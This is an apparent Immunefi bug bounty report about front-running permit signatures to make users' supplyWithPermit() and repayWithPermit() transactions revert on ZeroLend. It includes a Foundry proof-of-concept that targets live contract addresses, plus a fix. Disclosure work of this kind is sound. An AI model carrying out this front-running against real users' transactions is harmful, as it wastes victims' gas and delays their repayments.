 
# Attacker can invalidate users `supplyWithPermit()` and `repayWithPermit()` transactions

Submitted on Sat Mar 02 2024 06:59:17 GMT-0400 (Atlantic Standard Time) by @Norah for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28938

Report type: Smart Contract

Target: https://pacific-explorer.manta.network/address/0x8676e39B5D2f0d6E0d78a4208a0cCBc50504972e

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
- Where:
    -  [supplyWithPermit()]
    -  [repayWithPermit()]
    - (https://pacific-explorer.manta.network/address/0x8676e39B5D2f0d6E0d78a4208a0cCBc50504972e?tab=contract)
- Expected behavior:
    - The `supplyWithPermit()`  and `repayWithPermit()` functions utilises the permit function so that approve and pull operations can happen in a single transaction instead of two consecutive transactions.

## Vulnerability Details
- Attack:
    - `ERC20Permit` uses the nonces mapping for replay protection. Once a signature is verified and approved, the nonce increases, invalidating the same signature being replayed.
    - `supplyWithPermit()` expects the holder to sign their tokens and provide the signature in function parameter.
    - When a `supplyWithPermit()` transaction is in the mempool, an attacker can take this signature, call the `permit` function on the token themselves.
    - Since this is a valid signature, the token accepts it and increases the nonce.
    - As a result victim transaction will revert, whenever it gets mined becuase the nonce has been already use.
    - Check POC for more detail.

## Impact Details
 - Attacker can invalidate users `supplyWithPermit()` and `repayWithPermit()` transactions.
- While Attacker does not profit from this, it harms users (gas fee and opportunity cost) and protocols reputation.

## Recommendation
- In `repayWithPermit`  and `supplyWithPermit` function, check if it has the approval it needs. If not, then only submit the permit signature.

```
if (IERC20(address(asset)).allowance(msg.sender,address(this)) < amount) {
           IERC20WithPermit(asset).permit(msg.sender, address(this), amount, deadline, permitV, permitR, permitS);
        }
```
- Given the fix is simple, I would suggest to implement it as there is also possibility that sophisticated attacker might uses this to delay users `repay()` transaction and gain advantage.

## References
Add any relevant links to documentation or code
 
        
## Proof of concept
## Proof of Concept

- Following is POCs demonstrating the attack vector on Manta-Pacific fork in foundry..
 - To recreate please enter your RPC, and then run "forge test"

```

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test,console2} from "forge-std/Test.sol";
interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);

    function permit(
    address owner,
    address spender,
    uint256 value,
    uint256 deadline,
    uint8 v,
    bytes32 r,
    bytes32 s) external;

    function DOMAIN_SEPARATOR() external view returns(bytes32);
    function nonces(address) external view returns(uint256);
}

interface IPool {

  function supplyWithPermit(
    address asset,
    uint256 amount,
    address onBehalfOf,
    uint16 referralCode,
    uint256 deadline,
    uint8 permitV,
    bytes32 permitR,
    bytes32 permitS
  ) external;

}

contract GreifingAttack is Test {

    //RPC URL
    string RPC_URL = ""; //Enter your RPC here

    IPool Pool = IPool(0x2f9bB73a8e98793e26Cb2F6C4ad037BDf1C6B269);
    IERC20 Asset  = IERC20(0x95CeF13441Be50d20cA4558CC0a27B601aC544E5);

    uint256 constant VICTIM_PRIVATE_KEY = 0xCCCC;
    address victim = vm.addr(VICTIM_PRIVATE_KEY);

    bytes32 private constant PERMIT_TYPEHASH = keccak256("Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)");

    function setUp() public {

        uint256 ForkId = vm.createFork(RPC_URL);
        vm.selectFork(ForkId);

        deal(address(Asset), victim, 1000 ether);
    }

    function testPermitExploit() public {

         vm.startPrank(victim);

        //the happy path
        //victim adds liquidity with their sign using permit functionality

        uint amount = 1000 ether;
        bytes32 domainSeparator = Asset.DOMAIN_SEPARATOR();

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(
            VICTIM_PRIVATE_KEY,
            keccak256(
                abi.encodePacked(
                    "\x19\x01",
                    domainSeparator,
                    keccak256(
                        abi.encode(
                            PERMIT_TYPEHASH,
                            victim,
                            address(Pool),
                            amount,
                            Asset.nonces(victim),
                            block.timestamp
                        )
                    )
                )
            )
        );

        uint256 snapshot = vm.snapshot();

        // the victim calls the supplywithPermit function
        // with the signed permit and it succeeds as expected
        Pool.supplyWithPermit(address(Asset),amount,victim,0,block.timestamp,v,r,s);

        vm.revertTo(snapshot);

        //The griefing attack

        //Now, Before the victim's transaction gets accepted
        //the attacker takes the signature and submits it themselves
        uint256 nonceBefore = Asset.nonces(victim);
        Asset.permit(victim, address(Pool), amount, block.timestamp, v, r, s);

        //this ends up increasing the victim nonce
        assertEq(Asset.nonces(victim), nonceBefore + 1);

        //now when victim's transaction will be reverted,
        //because the nonce is already used
        vm.startPrank(victim);
        vm.expectRevert("ERC20Permit: invalid signature");
        Pool.supplyWithPermit(address(Asset),amount,victim,0,block.timestamp,v,r,s);
        vm.stopPrank();
    }

}
        

```